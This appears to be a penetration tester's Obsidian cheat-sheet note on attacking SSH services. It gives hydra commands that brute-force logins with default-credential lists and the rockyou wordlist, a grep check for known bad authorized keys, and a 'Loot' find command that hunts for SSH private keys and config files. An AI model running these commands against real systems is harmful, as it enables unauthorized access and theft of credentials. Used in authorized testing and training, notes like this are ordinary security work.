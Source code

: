 #service 
<% tp.file.rename("1_SSH_")%>
☑️
#### Bad Keys
Get entries from targets `authorized_keys` file. Then:
```
auth_key="";grep -lr $auth_key /home/kali/Documents/SSHKeys/
```

#### Bruteforce default credentials
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt ssh://$hip -V -t 4 -I -s 22
```

Or for a given user:
```bash
hydra -l $user -P /usr/share/wordlists/rockyou30.txt ssh://$hip -V -t 4 -I -s 22
```
(pass userlist with `-L`)

# Loot
```bash
find / -name "ssh_config" -o -name "sshd_config" -o -name "authorized_keys" -o -name "ssh_known_hosts" -o -name ".shosts" -o -name "id_*"
```